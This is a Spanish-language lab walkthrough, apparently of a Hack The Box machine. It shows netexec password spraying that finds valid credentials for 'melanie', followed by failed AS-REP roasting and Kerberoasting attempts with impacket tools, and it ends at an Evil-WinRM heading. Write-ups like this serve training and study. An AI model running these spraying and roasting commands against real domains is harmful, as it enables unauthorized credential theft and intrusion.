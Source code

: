 ## Checking credentials found with Netexec

Con las credenciales encontradas, probaremos de comprobar si son válidas para el usuario "marko". Verificamos que las credenciales no son correctas para dicho usuario.

```bash
netexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!'
```

<figure><img src="../../../../../.gitbook/assets/1068_vmware_opTa3npWv8.png" alt=""><figcaption></figcaption></figure>

Probaremos de comprobar si esta contraseña es válida para uno de los usuarios que tenemos en nuestro archivo "users.txt".

Verificamos que la contraseña es válida para la usuaria "melanie".

```bash
netexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```

<figure><img src="../../../../../.gitbook/assets/1069_vmware_DngBsEvnMj.png" alt="" width="563"><figcaption></figcaption></figure>

Guardaremos las credenciales en nuestro archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><img src="../../../../../.gitbook/assets/1070_vmware_i7DkCZadqN.png" alt=""><figcaption></figcaption></figure>

## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una buena cantidad de usuarios válidos, probaremos de realizar un **AS-REP Roasting Attack** de usuarios que dispongan del (DONT\_REQ\_PREAUTH) de Kerberos.

En este caso, ninguno disponía de dicha configuración.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt megabank.local/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/1071_vmware_YWzhGhZ7AD.png" alt="" width="563"><figcaption></figcaption></figure>

## Kerberoast Attack (GetUserSPNs) - \[FAILED]

Teniendo un usuario válido con sus credenciales, procederemos a intentar realizar un **Kerberoast Attack**, comprobamos que no obtenemos ningún Ticket Granting Service (TGS).

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.169 megabank.local/melanie -request
```

<figure><img src="../../../../../.gitbook/assets/1072_vmware_Jjx04QVAP3.png" alt=""><figcaption></figcaption></figure>

## ShellOver Evil-WinRM
